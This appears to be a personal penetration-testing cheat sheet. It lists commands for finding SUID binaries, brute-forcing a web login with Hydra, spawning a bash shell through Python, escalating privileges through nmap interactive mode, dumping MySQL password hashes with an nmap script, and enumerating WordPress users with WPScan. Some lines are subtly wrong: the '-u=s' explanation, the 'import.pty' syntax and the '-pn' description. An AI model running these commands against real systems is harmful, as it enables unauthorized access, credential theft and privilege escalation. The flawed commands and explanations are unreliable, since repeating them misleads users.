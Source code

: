 Find all files with SUID bit

    find / -perm -u=s -type f 2>/dev/null

or

    find / -perm -4000 -type f 2>/dev/null

Explanation:

    /denotes  start from the top (root) of the file system and find every directory
    -permdenotes search for the permissions that follow
    -u=sdenotes look for files that are owned by the root user
    -typestates the type of file we are looking for
    f denotes a regular file not the directories or special files
    2 denotes to the second file descriptor of the process, i.e. stderr (standard error)
    > means redirection
    /dev/null is a special filesystem object that throws away everything written into it.


Hydra Password Bruteforce

    hydra 192.168.1.69 http-form-post "/w3af/bruteforce/form_login/dataReceptor.php:user=^USER^&pass=^PASS^:Bad login" -L users.txt -P pass.txt -t 10 -w 30 -o hydra-http-post-attack.txt
    
Explanation:

    Host = 192.168.1.69
    Method = http-form-post
    URL = /w3af/bruteforce/form_login/dataReceptor.php
    Form parameters = user=^USER^&pass=^PASS^
    Failure response = Bad login
    Users file = users.txt
    Password file = pass.txt
    Threads = -t 10
    Wait for timeout = -w 30
    Output file = -o hydra-http-post-attack.txt

To remove all duplicates in a dictionary file

    cat filename.txt | sort | uniq > outfile.txt

Spawn bash

    python -c 'import.pty;pty.spawn("/bin/bash")'

nmap interactive

	nmap --interactive
	!bash -p
more nmap
	-sL : list targets to scan
	-pn : disable port scan(ping sweep?)
	
cool nmap scripts
	
	--script=http-enum
	--script=http-default-accounts
	--script=http-phpmyadmin-dir-traversal
	

passing parameters into nmap script example

	nmap -p 3306 <ip> --script mysql-dump-hashes --script-args='username=root,password=secret'
List of nmap scripts	
https://nmap.org/nsedoc/



WPSCAN

	wpscan --url <url>
	
WPSCAN enumerate users
	-enumerate u
	
	-e ap
